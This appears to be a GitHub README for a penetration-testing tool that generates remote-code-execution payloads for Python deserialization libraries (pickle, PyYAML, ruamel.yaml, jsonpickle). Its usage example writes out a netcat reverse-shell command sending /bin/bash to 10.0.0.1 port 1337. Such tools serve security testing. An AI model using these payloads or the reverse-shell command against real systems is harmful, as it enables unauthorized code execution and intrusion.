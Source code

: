 # Pickle Payload Generator

This tool generates remote code execution (RCE) payloads for various Python deserialization modules: `pickle`, `PyYAML`, `ruamel.yaml`, and `jsonpickle`. It supports both `os.system` and `subprocess.Popen` for executing commands, and allows payloads to be base64 encoded.

## Features
- **Multiple Serialization Methods**:
  - Supports `pickle`, `PyYAML`, `ruamel.yaml`, and `jsonpickle`.
- **Command Execution Methods**:
  - Allows choice between `os.system` and `subprocess.Popen`.
- **Cross-Platform Support**:
  - Works with both Linux and Windows environments.
- **Base64 Encoding**:
  - Option to base64 encode the generated payloads.
- **Flexible Input**:
  - Supports command-line arguments for easy automation.

## Requirements

- Python 3.x
- colorama
- pyyaml
- ruamel.yaml
- jsonpickle

## Usage

### Generate and Print Payload

To generate and print the payload, use the following command:

```sh
python3 pickle_payload.py -p "nc -nv 10.0.0.1 1337 -e /bin/bash" --method os
```

### Save Payload to File

To save the payload to a file, use the `-o` or `--output` option:

```sh
python3 pickle_payload.py -p "your command" -o "payload.txt"
```

### Options

- `-p`, `--pickle`: Generate a Pickle payload.
- `-y`, `--yaml`: Generate a YAML payload.
- `-r`, `--ruamel`: Generate a ruamel.yaml payload.
- `-j`, `--jsonpickle`: Generate a JSONPickle payload.
- `-o`, `--output <file>`: File to save the encoded payload.
- `-b`, `--base64`: Base64 encode the payload.
- `--os <os>`: Target operating system (`linux` or `windows`). Default is `linux`.
- `--method <method>`: Method to use for command execution (`subprocess` or `os`). Default is `os`.

### Example

```sh
python3 pickel_payload.py -p "touch test.txt" -o "payload.txt"
```

